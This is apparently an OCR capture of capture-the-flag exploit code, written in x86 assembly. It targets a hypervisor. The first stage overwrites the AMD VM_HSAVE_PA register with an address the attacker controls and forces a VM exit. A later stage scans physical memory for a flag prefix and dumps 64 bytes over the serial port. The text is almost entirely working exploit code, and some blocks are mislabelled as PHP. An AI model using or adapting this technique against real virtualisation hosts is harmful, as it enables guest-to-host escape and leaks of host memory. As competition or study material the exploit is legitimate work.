 ```php
[BITS 64]
[ORG 0x3000]
mov ecx, 0xc0010117
mov eax, 0x8000000
wrmsr

mov ecx, 0xc0010117
rdmsr

;print to serial
;xor eax, eax
;mov al, edx
;mov edx, 0x3f8
;out dx, ax

; cause exit to cause "CPU" to use to the new HSAVE_PA which we control
hlt
```

### Second\_stage

```php
[BITS 16]

[ORG 0x8000640]

mov edi, 0x8000
mov esi, .third_stage

; Avoid relative jumps because the address past 16 bits is cut off.
%rep 80
mov eax, [esi]
mov [edi], eax
add esi, 4
add edi, 4
%endrep

; jump to final stage
mov edi, 0x8000
jmp edi

.third_stage:
; A reasonable physical start address
mov esi, 0x2000000

.loop:
mov eax, [esi]
cmp eax, 0x7b707868
je .done
add esi, 0x1000
cmp esi, 0x3000000
jl .loop

.done:

mov ecx, 0x40
.print:
xor eax, eax
mov al, [esi]
mov edx, 0x3f8
out dx, ax
inc esi
loop .print
```